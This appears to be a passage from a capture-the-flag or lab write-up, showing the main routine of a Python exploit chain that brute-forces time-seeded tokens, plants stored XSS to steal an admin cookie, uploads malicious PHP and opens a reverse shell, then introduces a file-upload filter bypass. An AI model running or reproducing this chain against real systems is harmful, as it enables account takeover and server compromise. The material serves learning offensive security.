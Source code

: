 ```py
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
    # Mount the JS payload
    mountJS(lhost)
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Let's login
    loginUser(rhost,username)
    # Let's plant the xss
    putXSS(rhost,lhost)
    # Get the admin token
    getToken(lhost)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    os.system("rm steal.js")
    # Change token
    changeCookies(rhost,admin_cookie)
    # Plant the malicious php
    plantPHP(rhost)
    # Get Reverse Shell
    getReverse(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```

Ok, now let's get the file upload vulnerability working properly!

# 2º RCE - File Upload

If we remember we have a place to upload file in this server, which is very interesting, because if we bypass the defense mechanism, we can upload a malicious php and execute commands on the server

We found that it filter by the format of the file. The other filters are almost easy to bypass, I found this cheat sheet for bypass upload in github, possibly it's useful
